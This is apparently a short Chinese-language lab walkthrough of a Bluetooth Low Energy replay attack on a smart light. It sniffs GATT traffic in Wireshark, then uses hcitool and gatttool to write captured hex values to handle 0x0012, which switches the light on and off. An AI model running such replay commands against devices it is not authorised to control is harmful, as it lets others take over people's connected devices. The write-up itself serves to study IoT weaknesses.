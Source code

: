 # 嗅探:
用wireshark进行BLE流量嗅探，过滤btatt，GATT协议的数据
sent write request请求，句柄为0x0012，写入了相应的value值
经过一系列抓包发现，0e000000000000000000000418020181为开灯操作
0e000000000000000000000418020180为关灯操作

![](image/78c590766e792c7e85f079794b00784a.png)

# 重放攻击:
这里利用Parani-UD100硬件，使其连接到Linux系统
查看蓝牙设备信息
```c
hciconfig
```

![](image/6c7b277bb23f91c0403dc75617b8b3d4.png)

扫描周围的低功耗蓝牙（BLE）设备
```c
sudo hcitool lescan
```

![](image/0a30c5a51b0357528de0c6588aae8055.png)

进行交互
```c
gatttool -b F0:45:DA:F4:13:E4 -I
#-b 要接蓝牙设备的mac地址
#-I 以交互模式运行
connect
#连接
```

![](image/2ad635a61ec37796aa4f7028c0890b94.png)

列出所有特征
```c
characteristics
```

![](image/911fa111bddf3e23d96d0b2e7b6ee481.png)

向指定特征句柄写入数据
```c
# 开灯操作
char-write-req 0x0012 0e000000000000000000000418020181
# 关灯操作
char-write-req 0x0012 0e000000000000000000000418020180
```

![](image/d87c2372b461e496240838e97529f82f.png)
